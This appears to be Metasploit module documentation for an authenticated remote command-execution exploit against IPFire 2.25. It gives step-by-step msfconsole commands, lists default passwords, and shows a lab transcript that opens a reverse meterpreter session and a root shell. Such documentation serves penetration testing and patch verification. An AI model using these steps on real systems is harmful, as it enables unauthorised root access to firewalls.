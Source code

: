 ## Vulnerable Application

  Official Source: [ipfire](https://downloads.ipfire.org/releases/ipfire-2.x/2.25-core156/ipfire-2.25.x86_64-full-core156.iso)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

## Verification Steps

  1. Install the firewall
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/ipfire_pakfire_exec```
  4. Do: ```set password 012345``` or whatever it was set to at install
  5. Do: ```set rhost 192.168.1.100```
  6. Do: ```set lhost 192.168.1.106```
  7. Do: ```exploit```
  8. You should get a shell.

## Options

  **PASSWORD**

  Password is set at install.  May be blank, 'admin', or 'ipfire'.

## Scenarios

  ```
    msf6 > use exploit/linux/http/ipfire_pakfire_exec
    [*] No payload configured, defaulting to python/meterpreter/reverse_tcp
    msf6 exploit(linux/http/ipfire_pakfire_exec) > set password 012345
    password => 012345
    msf6 exploit(linux/http/ipfire_pakfire_exec) > set rhost 192.168.1.100
    rhost => 192.168.1.100
    msf6 exploit(linux/http/ipfire_pakfire_exec) > set lhost 192.168.1.106
    lhost => 192.168.1.106
    msf6 exploit(linux/http/ipfire_pakfire_exec) > exploit

    [*] Started reverse TCP handler on 192.168.1.106:4444 
    [*] Sending stage (39392 bytes) to 192.168.1.100
    [*] Meterpreter session 1 opened (192.168.1.106:4444 -> 192.168.1.100:55330) at 2021-05-23 19:28:38 +0300

    meterpreter > shell
    Process 2905 created.
    Channel 1 created.
    sh: cannot set terminal process group (2900): Inappropriate ioctl for device
    sh: no job control in this shell
    sh-5.0# id
    uid=0(root) gid=0(root) groups=0(root)
    sh-5.0# hostname
    ipfire.localdomain
    sh-5.0# 

  ```
